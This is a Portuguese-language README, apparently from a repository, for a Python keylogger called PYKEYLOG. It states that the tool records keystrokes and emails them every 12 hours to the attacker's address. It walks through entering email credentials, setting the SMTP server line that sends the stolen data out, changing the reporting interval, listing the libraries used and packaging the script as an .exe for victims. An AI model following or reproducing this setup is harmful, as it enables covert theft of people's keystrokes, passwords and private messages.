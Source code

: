 <h1 align="center"> PYKEYLOG </h1>
Keylogger em Python, feito da forma mais simples possível para copiar as teclas pressionadas e enviar a cada 12 horas para o e-mail do atacante.
# Como usar:
Altere: ```EMAIL_ADDRESS = "youremail@example.com"``` e ```EMAIL_PASSWORD = "yourpassword"```
Altere também na linha 34: server = smtplib.SMTP(host="smtp-mail.outlook.com", port=587) - para o smtp e porta do email que você for usar
Você também pode alterar o intervado de tempo que o e-mail será enviado com as teclas pressionadas em: SEND_REPORT_EVERY = 43200  # (seconds)
No meu caso, para não ficar chegando muitos emails, coloquei para receber a cada 12 horas. Use sempre em segundos.
# Lembre-se:
Importar as bibliotecas:
smtplib
pynput
threading
email.mime.text
# USE COM RESPONSABILIDADE!

# Transformar em .exe
Após a finalização do script, utilizei auto_py_to_exe para transformar o arquivo py em exe.
Enjoy

